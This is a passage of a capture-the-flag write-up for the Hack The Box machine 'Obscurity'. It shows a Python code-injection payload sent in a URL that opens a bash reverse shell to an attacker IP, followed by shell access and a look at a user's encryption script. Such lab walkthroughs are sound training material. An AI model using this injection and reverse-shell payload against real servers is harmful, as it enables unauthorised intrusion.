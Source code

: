 >[https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

![Untitled](/img/htb-obscurity/8.png)

Using the article I created mine, At first, I tried without `bash -c` but that didn't work but when I tried this, it worked.
I send `'` as the string which it is expecting from us.

```py
`10.10.10.168:8080/';__import__("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.31/1234 0>&1'")%23`
```

## Shell as www-data

![Untitled](/img/htb-obscurity/9.png)

We got the shell!!

There is a user `robert` while checking his home directory. Found some files.

```bash
www-data@obscure:/home/robert$ ls
ls
BetterSSH
check.txt
out.txt
passwordreminder.txt
SuperSecureCrypt.py
user.txt
```

## Analysing the Python Script

I used `-h` to get the usage of `SuperSecureCrypt.py` and it do some encryption and decryption using a key.

```bash
python3 SuperSecureCrypt.py -h
usage: SuperSecureCrypt.py [-h] [-i InFile] [-o OutFile] [-k Key] [-d]

Encrypt with 0bscura's encryption algorithm

optional arguments:
  -h, --help  show this help message and exit
  -i InFile   The file to read
  -o OutFile  Where to output the encrypted/decrypted file
  -k Key      Key to use
  -d          Decrypt mode
```

So this is how it works!

I started checking other files in that directory.
